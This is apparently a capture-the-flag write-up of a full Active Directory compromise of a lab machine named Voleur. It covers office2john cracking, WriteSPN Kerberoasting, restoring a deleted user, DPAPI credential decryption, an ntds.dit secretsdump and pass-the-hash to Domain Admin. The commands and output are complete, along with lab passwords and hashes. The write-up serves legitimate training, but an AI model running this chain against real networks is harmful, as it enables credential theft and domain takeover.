

# Attack Chain

```
ryan.naylor (given creds, First-Line) → READ on IT share
  └─► crack Access_Review.xlsx → svc_ldap / svc_iis / todd.wolfe creds
    └─► WriteSPN on svc_winrm → Kerberoast → svc_winrm → user.txt
        └─► WRITE on deleted object → restore todd.wolfe → Second-Line share
            └─► DPAPI masterkey + credential blob → jeremy.combs creds
                └─► id_rsa (svc_backup@DC) → SSH to WSL :2222
                    └─► read ntds.dit + SYSTEM/SECURITY hives
                        └─► secretsdump → Administrator NT hash
                            └─► overpass-the-hash → evil-winrm (Kerberos) → DA
```

# Summary

- [Enumeration](#enumeration)
	- [nmap](#nmap)
	- [Bloodhound](#bloodhound)
	- [SMB](#smb)
- [IT Share](#it-share)
	- [TGT for ryan.naylor](#tgt-for-ryannaylor)
	- [Get .xlsx file](#get-xlsx-file)
	- [Crack file's password](#crack-files-password)
	- [Validate Accounts](#validate-accounts)
- [WriteSPN on winrm service account](#writespn-on-winrm-service-account)
	- [Add ServicePrincipalName](#add-serviceprincipalname)
	- [Request TGS hash](#request-tgs-hash)
	- [Crack the hash](#crack-the-hash)
	- [Shell as svc_winrm](#shell-as-svc_winrm)
- [Lateral Movement](#lateral-movement)
	- [Restore Todd Wolfe](#restore-todd-wolfe)
	- [IT Share - Second Line Technicians](#it-share---second-line-technicians)
	- [Decrypt DPAPI master key](#decrypt-dpapi-master-key)
	- [Decrypt DPAPI credentials](#decrypt-dpapi-credentials)
- [Privilege Escalation](#privilege-escalation)
	- [Third Line Technicians](#third-line-technicians)
	- [SSH as svc_backup](#ssh-as-svc_backup)
	- [Dump NTDS.dit](#dump-ntdsdit)
	- [Shell as administrator](#shell-as-administrator)
- [Bonus](#bonus)

---

As is common in real life Windows pentests, you will start the Voleur box with credentials for the following account: ryan.naylor / HollowOct31Nyt.

# Enumeration

### nmap

```bash
nmap -sVC 10.129.232.130 -oA nmap             
Starting Nmap 7.93 ( https://nmap.org ) at 2026-06-24 09:49 CEST
Nmap scan report for 10.129.232.130
Host is up (0.13s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-06-24 15:49:32Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: voleur.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
2222/tcp open  ssh           OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 42403930d6fc449537e19b880ba2d771 (RSA)
|   256 aed9c2b87d656f58c8f4ae4fe4e8cd94 (ECDSA)
|_  256 53ad6b6ccaae1b404471529529b1bbc1 (ED25519)
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: voleur.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: DC; OSs: Windows, Linux; CPE: cpe:/o:microsoft:windows, cpe:/o:linux:linux_kernel
```

> [!NOTE]
> **Observations**
> - The domain of the target is `voleur.htb` 
> - FQDN is `DC.voleur.htb`
> - The target is an Active Directory
> - SSH is open on port 2222

Let's edit our `/etc/hosts` file.

```
echo '10.129.232.130 voleur.htb dc.voleur.htb' | tee -a /etc/hosts
```


We can also generate the correct `krb5.conf` to ensure we are communicating clearly with the target.

```bash
nxc smb 10.129.232.130 -u 'ryan.naylor' -p 'HollowOct31Nyt' -k --generate-krb5-file /etc/krb5.conf
```

### Bloodhound

We can start by collecting data with `bloodhound.py`.

```bash
bloodhound.py --zip -c All -d "voleur.htb" -u "ryan.naylor" -p "HollowOct31Nyt" -dc "dc.voleur.htb" -ns 10.129.232.130
```


After marking our given user as owned, we notice that it belongs to the uncommon group **First-Line Technicians**.

### SMB

With this information, we can enumerate the shares that our user has access to.

```bash
nxc smb 10.129.232.130 -u 'ryan.naylor' -p 'HollowOct31Nyt'   

SMB     10.129.*.*  445  DC  [*]  x64 (name:DC) (domain:voleur.htb) (signing:True) (SMBv1:None) (NTLM:False)

SMB     10.129.*.*  445  DC  [-] voleur.htb\ryan.naylor:HollowOct31Nyt STATUS_NOT_SUPPORTED 
```

We notice that the NTLM authentication is disabled so we will have to stick with Kerberos.
To bypass it we can simply append `-k` with `NetExec` to specify the Kerberos authentication.


```bash
nxc smb dc.voleur.htb -u 'ryan.naylor' -p 'HollowOct31Nyt' -k --shares                                 
SMB         dc.voleur.htb  445    DC               [*]  x64 (name:DC) (domain:voleur.htb) (signing:True) (SMBv1:None) (NTLM:False)
SMB         dc.voleur.htb  445    DC               [+] voleur.htb\ryan.naylor:HollowOct31Nyt 
SMB         dc.voleur.htb  445    DC               [*] Enumerated shares

SMB         dc.voleur.htb  445    DC               Share           Permissions     Remark
SMB         dc.voleur.htb  445    DC               -----           -----------     ------
SMB         dc.voleur.htb  445    DC               ADMIN$                          Remote Admin
SMB         dc.voleur.htb  445    DC               C$                              Default share
SMB         dc.voleur.htb  445    DC               Finance                         
SMB         dc.voleur.htb  445    DC               HR                              
SMB         dc.voleur.htb  445    DC               IPC$            READ            Remote IPC
SMB         dc.voleur.htb  445    DC               IT              READ            
SMB         dc.voleur.htb  445    DC               NETLOGON        READ            Logon server share 
SMB         dc.voleur.htb  445    DC               SYSVOL          READ            Logon server share 
```

# IT Share

We have READ right to the IT share.

### TGT for ryan.naylor

Before investigating the share, we must get a TGT for `ryan.naylor`.

```
getTGT.py -dc-ip "10.129.232.130" "voleur.htb"/"ryan.naylor":"HollowOct31Nyt"
```

And export it to the variable `KRB5CCNAME`

```
export KRB5CCNAME=ryan.naylor.ccache
```

### Get .xlsx file

We can now access the share using `smbclientng`, and retrieve the file `Access_Review.xlsx`.

```bash
smbclientng -d "voleur.htb" -u "ryan.naylor" -p "HollowOct31Nyt" --host "dc.voleur.htb" -k

[+] Successfully authenticated to 'dc.voleur.htb' as 'voleur.htb\ryan.naylor'!
■[\\dc.voleur.htb\]> use IT
■[\\dc.voleur.htb\IT\]> ls
d-------     0.00 B  2025-07-01 02:01  .\
d--h--s-     0.00 B  2025-07-24 22:09  ..\
d-------     0.00 B  2025-07-01 02:01  First-Line Support\
■[\\dc.voleur.htb\IT\]> cd 'First-Line Support/' 
■[\\dc.voleur.htb\IT\First-Line Support\]> ls
d-------     0.00 B  2025-07-01 02:01  .\
d-------     0.00 B  2025-07-01 02:01  ..\
-a------   16.50 kB  2025-01-31 10:09  Access_Review.xlsx
■[\\dc.voleur.htb\IT\First-Line Support\]> get Access_Review.xlsx 
'Access_Review.xlsx' ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
```

### Crack file's password

The file is protected with a password so we need to crack it. To do this we can use `office2john` to convert the file to an hash.

```
office2john.py Access_Review.xlsx > hash.xlsx 
```

Then we can crack it using `john`.

```
john --wordlist=`fzf-wordlists` hash.xlsx      

<SNIP>

football1        (Access_Review.xlsx)     
```

### File Inspection

Let's inspect the file now.



> [!NOTE]
> **File analysis**
> - Password for the user `svc_ldap` : `M1XyC9pW7qT5Vn`
> - Password for the user `svc_iis` : `N5pXyW1VqM7CZ8`
> - `Todd.Wolfe` is deleted and its password has been reset to `NightT1meP1dg3on14`

### Validate Accounts

With this information, we can first check if the credentials works.

```
nxc smb dc.voleur.htb -u 'svc_ldap' -p 'M1XyC9pW7qT5Vn' -k 
SMB         dc.voleur.htb  445    DC               [*]  x64 (name:DC) (domain:voleur.htb) (signing:True) (SMBv1:None) (NTLM:False)

SMB    dc.voleur.htb  445    DC         [+] voleur.htb\svc_ldap:M1XyC9pW7qT5Vn 
```

```
nxc smb dc.voleur.htb -u 'svc_iis' -p 'N5pXyW1VqM7CZ8' -k 
SMB         dc.voleur.htb  445    DC               [*]  x64 (name:DC) (domain:voleur.htb) (signing:True) (SMBv1:None) (NTLM:False)

SMB    dc.voleur.htb  445    DC     [+] voleur.htb\svc_iis:N5pXyW1VqM7CZ8 
```

Both accounts works.

# WriteSPN on winrm service account

From the bloodhound graph we notice that our user has `WriteSPN` on the user `svc_winrm`, and that account has its password being reset recently.


This means we can write into the attribute **ServicePrincipalName**, and request a TGS for that user which will yields a hash derived from the user's password.

### Add ServicePrincipalName

To write into the attribute we can use `bloodyAD`.

```
bloodyAD --host "dc.voleur.htb" -d "voleur.htb" -u "svc_ldap" -p "M1XyC9pW7qT5Vn" -k set object svc_winrm servicePrincipalName -v "hacked/hacked"

[+] svc_winrm's servicePrincipalName has been updated
```

### Request TGS hash

Then we can request its TGS.

```
GetUserSPNs.py -dc-host "dc.voleur.htb" -dc-ip 10.129.232.130 "voleur.htb"/"ryan.naylor":"HollowOct31Nyt" -k -request

ServicePrincipalName  Name       MemberOf                                                PasswordLastSet             LastLogon                   Delegation 
--------------------  ---------  ------------------------------------------------------  --------------------------  --------------------------  ----------
hacked/hacked         svc_winrm  CN=Remote Management Users,CN=Builtin,DC=voleur,DC=htb  2025-01-31 10:10:12.398769  2025-01-29 16:07:32.711487             


$krb5tgs$23$*svc_winrm$VOLEUR.HTB$voleur.htb/svc_winrm<hash>
```

### Crack the hash

Now that we got its hash, we can crack it with `hashcat`.

```
echo '$krb5tgs$23$*svc_winrm$VOLEUR.HTB$voleur.htb/svc_winrm<hash>' > hash.txt
```

```
hashcat hash.txt /usr/share/wordlist/rockyou.txt

$krb5tgs$23$*svc_winrm$VOLEUR.HTB$voleur.htb/svc_winrm*<hash>:AFireInsidedeOzarctica980219afi

Session..........: hashcat
Status...........: Cracked
```

> [!TIP]
> **Credentials Obtained**
> `svc_winrm` : `AFireInsidedeOzarctica980219afi`

### Shell as svc_winrm

We can now request a TGT and get a shell on the target.

```
getTGT.py -dc-ip "10.129.232.130" "voleur.htb"/"svc_winrm":"AFireInsidedeOzarctica980219afi"

[*] Saving ticket in svc_winrm.ccache
```

```
evil-winrm -i dc.voleur.htb -r voleur.htb

*Evil-WinRM* PS C:\Users\svc_winrm\Documents> 
```

We can grab the `user.txt` from there.

# Lateral Movement

Now that we have a first foothold on the target, we need to pivot to another user.

Let's enumerate our ACL with `bloodyAD` for the user we compromised.

```
bloodyAD --host "dc.voleur.htb" -d "voleur.htb" -u "svc_ldap" -p "M1XyC9pW7qT5Vn" -k get writable

distinguishedName: CN=S-1-5-11,CN=ForeignSecurityPrincipals,DC=voleur,DC=htb
permission: WRITE

distinguishedName: OU=Second-Line Support Technicians,DC=voleur,DC=htb
permission: CREATE_CHILD; WRITE

distinguishedName: CN=Lacey Miller,OU=Second-Line Support Technicians,DC=voleur,DC=htb
permission: CREATE_CHILD; WRITE

distinguishedName: CN=svc_ldap,OU=Service Accounts,DC=voleur,DC=htb
permission: WRITE

distinguishedName: CN=Todd Wolfe\0ADEL:1c6b1deb-c372-4cbb-87b1-15031de169db,CN=Deleted Objects,DC=voleur,DC=htb
permission: CREATE_CHILD; WRITE

distinguishedName: CN=svc_winrm,OU=Service Accounts,DC=voleur,DC=htb
permission: WRITE
```

`svc_ldap` has **WRITE** permission on the user `todd.wolfe` which is deleted, and we know its password from the `.xlsx` file.

### Restore Todd Wolfe

Let's restore the user.

```
bloodyAD --host "dc.voleur.htb" -d "voleur.htb" -u "svc_ldap" -p "M1XyC9pW7qT5Vn" -k set restore "CN=Todd Wolfe\0ADEL:1c6b1deb-c372-4cbb-87b1-15031de169db,CN=Deleted Objects,DC=voleur,DC=htb"

[+] CN=Todd Wolfe\0ADEL:1c6b1deb-c372-4cbb-87b1-15031de169db,CN=Deleted Objects,DC=voleur,DC=htb has been restored successfully under CN=Todd Wolfe,OU=Second-Line Support Technicians,DC=voleur,DC=htb
```

Now that the user is restored, we can check if its credentials are valid.

```
nxc smb dc.voleur.htb -u 'todd.wolfe' -p 'NightT1meP1dg3on14' -k 
SMB         dc.voleur.htb   445    dc               [*]  x64 (name:dc) (domain:voleur.htb) (signing:True) (SMBv1:None) (NTLM:False)

SMB    dc.voleur.htb   445    dc    [+] voleur.htb\todd.wolfe:NightT1meP1dg3on14 
```

### IT Share - Second Line Technicians

From bloodhound, we notice that `todd.wolfe` is a member of **Second-Line Technicians**.


It means we might have access to other files inside the IT share.

Let's request a TGT for `todd.wolfe`.

```
getTGT.py -dc-ip "10.129.232.130" "voleur.htb"/"todd.wolfe":"NightT1meP1dg3on14"

[*] Saving ticket in todd.wolfe.ccache
```
```
export KRB5CCNAME=todd.wolfe.ccache   
```

After investigating the folder, we notice it's a copy of `todd.wolfe`'s folders

We have also access to many files regarding DPAPI.

```
├── AppData/
│   ├── Local/
│   │   ├── ConnectedDevicesPlatform/
│   │   │   ├── CDPGlobalSettings.cdp
│   │   │   └── Connected Devices Platform certificates.sst
│   │   ├── Microsoft/
│   │   │   ├── Credentials/
│   │   │   │   └── DFBE70A7E5CC19A398EBF1B96859CE5D
```


```
	└── Roaming/
│       ├── Adobe/
│       │   └── Flash Player/
│       │       └── NativeCache/
│       └── Microsoft/
│           ├── Credentials/
│           │   └── 772275FAD58525253490A9B0039791D3
│           ├── Crypto/
│           │   ├── Keys/
│           │   │   └── de7cf8a7901d2ad13e5c67c29e5d1662_dd91b169-00f0-4f31-9a8e-4df03f609163
```

```
│           ├── Protect/
│           │   ├── S-1-5-21-3927696377-1337352550-2781715495-1110/
│           │   │   ├── 08949382-134f-4c63-b93c-ce52efc0aa88
│           │   │   ├── BK-VOLEUR
│           │   │   └── Preferred
```


```
│               ├── PowerShell/
│               │   └── PSReadLine/
│               │       └── ConsoleHost_history.txt
```

`ConsoleHost_history.txt` doesn't bring us any value so we will have to stick with DPAPI.

First we have to retrieve several files such as 
- `08949382-134f-4c63-b93c-ce52efc0aa88` : the GUID file of `todd.wolfe` 
- Note the SID of the user : `S-1-5-21-3927696377-1337352550-2781715495-1110`
- The credentials files `DFBE70A7E5CC19A398EBF1B96859CE5D` and `772275FAD58525253490A9B0039791D3` encrypted with DPAPI.

### Decrypt DPAPI master key

To decrypt the files, we must decrypt the master key file, which will be used to decrypt the file encrypted with DPAPI.

We can perform these action with `dpapi.py` from impacket.

```
dpapi.py masterkey -file 08949382-134f-4c63-b93c-ce52efc0aa88 -sid "S-1-5-21-3927696377-1337352550-2781715495-1110" -password 'NightT1meP1dg3on14'

[MASTERKEYFILE]
Version     :        2 (2)
Guid        : 08949382-134f-4c63-b93c-ce52efc0aa88
Flags       :        0 (0)
Policy      :        0 (0)
MasterKeyLen: 00000088 (136)
BackupKeyLen: 00000068 (104)
CredHistLen : 00000000 (0)
DomainKeyLen: 00000174 (372)

Decrypted key with User Key (MD4 protected)
Decrypted key: 0xd2832547d1d5e0a01ef271ede2d299248d1cb0320061fd5355fea2907f9cf879d10c9f329c77c4fd0b9bf83a9e240ce2b8a9dfb92a0d15969ccae6f550650a83
```

### Decrypt DPAPI credentials

Now that we retrieved the key, we can decrypt the files.

```
dpapi.py credential -file 772275FAD58525253490A9B0039791D3 -key 0xd2832547d1d5e0a01ef271ede2d299248d1cb0320061fd5355fea2907f9cf879d10c9f329c77c4fd0b9bf83a9e240ce2b8a9dfb92a0d15969ccae6f550650a83 
Impacket (Exegol fork) v0.13.0.dev0+20250723.125503.b5db2dd7 - Copyright Fortra, LLC and its affiliated companies 

[CREDENTIAL]
LastWritten : 2025-01-29 12:55:19+00:00
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000002 (CRED_TYPE_DOMAIN_PASSWORD)
Target      : Domain:target=Jezzas_Account
Description : 
Unknown     : 
Username    : jeremy.combs
Unknown     : qT3V9pLXyN7W4m
```

> [!TIP]
> **Credentials obtained**
> `jeremy.combs` : `qT3V9pLXyN7W4m`

`DFBE70A7E5CC19A398EBF1B96859CE5D` didn't retrieve any useful information though.

Let's validate the credentials.

```bash
nxc smb dc.voleur.htb -u 'jeremy.combs' -p 'qT3V9pLXyN7W4m' -k      

SMB    dc.voleur.htb   445    dc      [+] voleur.htb\jeremy.combs:qT3V9pLXyN7W4m 
```

# Privilege Escalation

We successfully pivoted to another user, let's look for Privilege Escalation now.

### Third Line Technicians

Bloodhound reveals that `jeremy.combs` is a member of **Third-Line Technicians**.


Let's get a TGT for `jeremy.combs`.

```
getTGT.py -dc-ip "10.129.232.130" "voleur.htb"/"jeremy.combs":"qT3V9pLXyN7W4m"

[*] Saving ticket in jeremy.combs.ccache
```

```
export KRB5CCNAME=jeremy.combs.ccache    
```

And enumerate the IT share.

```
smbclientng -d "voleur.htb" -u "jeremy.combs" -p "qT3V9pLXyN7W4m" --host "dc.voleur.htb" -k
    
[+] Successfully authenticated to 'dc.voleur.htb' as 'voleur.htb\jeremy.combs'!

[\\dc.voleur.htb\]> use IT
[\\dc.voleur.htb\IT\]> ls
d-------     0.00 B  2025-07-01 02:01  .\
d--h--s-     0.00 B  2025-07-24 22:09  ..\
d-------     0.00 B  2025-07-01 02:01  Third-Line Support\
cd [\\dc.voleur.htb\IT\]> cd 'Third-Line Support/' 
[\\dc.voleur.htb\IT\Third-Line Support\]> ls
d-------     0.00 B  2025-07-01 02:01  .\
d-------     0.00 B  2025-07-01 02:01  ..\
-a------    2.54 kB  2025-01-30 17:10  id_rsa
-a------   186.00 B  2025-01-30 17:07  Note.txt.txt
[\\dc.voleur.htb\IT\Third-Line Support\]> get *
```

There is 2 interesting files, `Note.txt.txt` and a private ssh key `id_rsa`.

```
cat Note.txt.txt                        
Jeremy,

I've had enough of Windows Backup! I've part configured WSL to see if we can utilize any of the backup tools from Linux.

Please see what you can set up.

Thanks,

Admin#                                                                   
```

With the note, we conclude that the ssh on port 2222 is a WSL instance on the target.

### SSH as svc_backup

We do not know to which user the private ssh key belongs though, but we can have this information with the following command.

```
ssh-keygen -l -f id_rsa
3072 SHA256:+SJo12eqmKss6G70Hv3/wPrD2rXK9QY7fg8uUrxUeUw svc_backup@DC (RSA)
```

The private key belongs to `svc_backup`, let's connect over ssh.

```
ssh -i id_rsa svc_backup@10.129.232.130 -p 2222

<SNIP>

svc_backup@DC:~$
```

### Dump NTDS.dit

We are connected, let's enumerate the files.

The `C:` drive is mounted under `/mnt`, and we can access the `Backups` directory under the **Third-Line Support** share. We can find 3 interesting files, `ntds.dit`, and the registry hives `SYSTEM` and `SECURITY`.

```
svc_backup@DC:/mnt/c/IT/Third-Line Support/Backups/Active Directory$ ls
ntds.dit  ntds.jfm
```

```
svc_backup@DC:/mnt/c/IT/Third-Line Support/Backups/registry$ ls
SECURITY  SYSTEM
```

After transferring them to our machine, we can dump every hash of the domain with `secretsdump.py`.

```
secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL                   
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0xbbdd1a32433b87bcc9b875321b883d2d
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 898238e1ccd2ac0016a18c53f4569f40
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e656e07c56d831611b577b160b259ad2:::
<SNIP>
```

### Shell as administrator

Since we got the hash of `administrator`, we can request a TGT and connect on the target over winrm.

```
getTGT.py -dc-ip "10.129.232.130" "voleur.htb"/"administrator" -hashes ":e656e07c56d831611b577b160b259ad2"
```

```
export KRB5CCNAME=administrator.ccache 
```

```
evil-winrm -i dc.voleur.htb -r voleur.htb

*Evil-WinRM* PS C:\Users\Administrator\Documents>
```


> [!TIP]
> **Machine rooted**


# Bonus
### Repair NTDS.dit if broken


```
/mnt/c/Windows/System32/esentutl.exe /mh ntds.dit

# If STATE = State: Dirty Shutdown le fichier est cassé
```


```
/mnt/c/Windows/System32/esentutl.exe /p /o ntds.dit

Initiating REPAIR mode...
        Database: ntds.dit
  Temp. Database: TEMPREPAIR4488.EDB
```